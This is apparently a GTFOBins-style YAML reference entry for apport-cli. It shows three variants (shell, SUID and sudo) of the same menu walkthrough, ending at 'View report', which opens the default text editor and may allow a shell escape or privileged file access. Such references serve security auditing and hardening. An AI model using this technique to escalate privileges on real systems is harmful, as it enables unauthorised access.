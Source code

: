 ```yaml
---
description: This can be run with elevated privileges to create a bug report, then view the report in a text editor, which may allow shell escapes and/or privileged file read/writes (Depending upon the default file editor program).
functions:
  shell:
    - code: |
        apport-cli -f

        *** What kind of problem do you want to report?
        <SNIP>
        Please choose (1/2/3/4/5/6/7/8/9/10/C): 1

        *** Collecting problem information
        <SNIP>

        *** What display problem do you observe?
        <SNIP>

        Please choose (1/2/3/4/5/6/7/8/C): 2
        <SNIP>

        *** Send problem report to the developers?
        <SNIP>
        What would you like to do? Your options are:
            <SNIP>
            V: View report
            <SNIP>
        Please choose (S/V/K/I/C): V

        <AT THIS POINT, DEFAULT CLI TEXT EDITOR IS OPENED. FROM HERE, SHELL ESCAPE AND/OR PRIVIEDGED R/W DEPENDS UPON THE EDITOR>
  suid:
    - code: |
        apport-cli -f

        *** What kind of problem do you want to report?
        <SNIP>
        Please choose (1/2/3/4/5/6/7/8/9/10/C): 1

        *** Collecting problem information
        <SNIP>

        *** What display problem do you observe?
        <SNIP>

        Please choose (1/2/3/4/5/6/7/8/C): 2
        <SNIP>

        *** Send problem report to the developers?
        <SNIP>
        What would you like to do? Your options are:
            <SNIP>
            V: View report
            <SNIP>
        Please choose (S/V/K/I/C): V

        <AT THIS POINT, DEFAULT CLI TEXT EDITOR IS OPENED. FROM HERE, SHELL ESCAPE AND/OR PRIVIEDGED R/W DEPENDS UPON THE EDITOR>
  sudo:
    - code: |
        sudo apport-cli -f

        *** What kind of problem do you want to report?
        <SNIP>
        Please choose (1/2/3/4/5/6/7/8/9/10/C): 1

        *** Collecting problem information
        <SNIP>

        *** What display problem do you observe?
        <SNIP>

        Please choose (1/2/3/4/5/6/7/8/C): 2
        <SNIP>

        *** Send problem report to the developers?
        <SNIP>
        What would you like to do? Your options are:
            <SNIP>
            V: View report
            <SNIP>
        Please choose (S/V/K/I/C): V

        <AT THIS POINT, DEFAULT CLI TEXT EDITOR IS OPENED. FROM HERE, SHELL ESCAPE AND/OR PRIVIEDGED R/W DEPENDS UPON THE EDITOR>
---
```

